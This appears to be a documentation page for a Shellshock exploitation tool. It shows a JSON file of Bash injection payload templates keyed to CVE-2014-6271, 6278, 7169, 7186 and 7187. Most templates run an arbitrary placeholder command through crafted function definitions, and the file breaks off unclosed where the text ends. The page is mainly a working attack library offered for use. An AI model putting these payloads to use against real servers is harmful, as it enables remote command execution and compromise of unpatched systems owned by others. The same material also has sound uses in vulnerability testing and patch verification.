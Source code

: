 ![Logo](assets/prints/print04.png)
--debug
### Source file ( Exploits )
>pwd: assets/exploits.json
```json
{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
```